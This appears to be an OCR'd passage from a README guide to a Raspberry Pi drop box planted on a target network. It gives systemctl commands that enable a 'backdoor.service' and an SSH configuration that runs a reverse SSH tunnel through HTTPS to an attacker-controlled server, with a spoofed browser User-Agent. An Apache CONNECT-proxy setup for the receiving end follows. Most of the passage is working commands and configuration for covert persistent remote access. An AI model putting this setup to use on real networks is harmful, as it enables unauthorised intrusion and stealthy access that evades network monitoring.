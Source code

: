 ```sh
$ systemctl daemon-reload
```
Enable the service

```sh
$ systemctl enable backdoor.service
```
Start the service now or wait till a reboot starts it, your call...
To start the service:
```sh
$ systemctl start backdoor.service
````
To wait:
```sh
$
```
##### 4) Persistent Remote Access - Reverse SSH over HTTPS Tunnel

This is a fun reverse shell that will give you SSH access to the planted Raspberry Pi.

You'll want to make sure your server, AWS or whatever, has a new basic user created with an ssh key you are ok with getting burned - DO NOT USE THE ROOT USER AND KEY FOR THIS, just don't.
On the Raspberry Pi, edit your ssh config file:

```sh
Host <IP or Domain Name of Server>
  Hostname 1.2.3.4
  ProtocolKeepAlives 30
  User <New basic user your created>
  IdentityFile <path to ssh key for new user, that is stored on Pi>
  ProxyCommand proxytunnel -q -E -p <IP or Domain Name of Server>:443 -d <IP or Domain Name of Server>:22 -H "User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Win32)"
  Port 443
```
This config file tells SSH to create an HTTPS tunnel out to our remote server, then tunnel the SSH sesstion through that.

On the remote server, ensure apache is installed and the following config is enabled:
***Also ensure iptables is on, and only allowing the target network to connect.***

```sh
#
# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
LoadModule proxy_http_module modules/mod_proxy_http.so
LoadModule proxy_connect_module modules/mod_proxy_connect.so

<VirtualHost *:443>

  ServerName mywebserver:443
  ServerAdmin admin@example.com

  SSLEngine on
  SSLCertificateFile "/etc/apache2/ssl/mysitename.crt"
  SSLCertificateKeyFile "/etc/apache2/ssl/mysitename.key"
  ## Only ever allow incoming HTTP CONNECT requests.
  ## Explicitly deny other request types like GET, POST, etc.
  ## This tells Apache to return a 403 Forbidden if this virtual
  ## host receives anything other than an HTTP CONNECT.
  RewriteEngine On
  RewriteCond %{REQUEST_METHOD} !^CONNECT [NC]
  RewriteRule ^/(.*)$ - [F,L]

  ## Setup proxying between youwebserver:8443 and yoursshserver:22

  ProxyRequests On
  ProxyBadHeader Ignore
```